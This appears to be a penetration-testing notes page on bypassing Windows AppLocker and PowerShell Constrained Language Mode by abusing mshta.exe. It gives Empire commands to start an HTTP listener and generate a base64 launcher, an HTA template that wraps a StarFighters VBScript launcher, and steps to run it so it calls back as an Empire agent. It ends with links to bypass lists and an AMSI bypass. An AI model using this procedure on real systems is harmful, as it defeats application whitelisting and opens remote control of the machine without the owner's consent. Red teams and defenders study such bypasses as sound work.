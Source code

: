 # Bypassing Applocker and Powershell contstrained language mode



There will be environments where Applocker severely restricts which commands can be run on a system. That means no binaries that are not signed by Microsoft. Usually this means an environment where you basically have access to certain whitelisted applications like Internet explorer and notepad. This means getting a shell will be hard.

There could also be the restriction of Powershell constrained language mode too, which prevents you from running anything Powershell related. That means no Powershell scripts can be executed either.

However, both these features can be bypassed using a technique known as abusing mshta.exe, which is a binary used for executing html applications and it's typically installed along Internet Explorer.

A machine with some level of user access is of course a prequisite for this to work. The goal of this is to get a shell through an Empire agent. The only caveat of this technique is that it requires .NET framework 3.5 feature to be enabled to work .NET framework 3.5 feature is something that is not enabled by default in Windows 10 on a clean install.

We want to abuse the fact that we can launch mshta files, which is basically

Set up an Empire listener and generate a base64 encoded launcher. Copy the launcher when done

```
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

Now use StarFighter whic is JavaScript and VBScript Based Empire Launcher, which runs within their own embedded PowerShell Host. This means you don't have to rely on powershell.exe from the target, which you can't execute because of the restrictions set.

[https://github.com/Cn33liz/StarFighters](https://github.com/Cn33liz/StarFighters)

Paste the Empire launcher into the vbs or js where indicated. Name the file with .hta as extension.

```
<body onclick="if(confirm('Close? (onclick)')){self.close();}">
<h1>Test Page</h1>
<script language="VBScript">
StarVighter.vbs contents go here with copypasted powershell
</script>
</body>
```

Then get the file on the box, right click on it, select Open with-&gt; Microsoft \(R\) HTML Application host and it should immediately launch and you should get an agent in Empire.

![](/assets/import.png)


**Useful links**
[https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/)
https://github.com/api0cradle/UltimateAppLockerByPassList
http://cn33liz.blogspot.no/2016/05/bypassing-amsi-using-powershell-5-dll.html


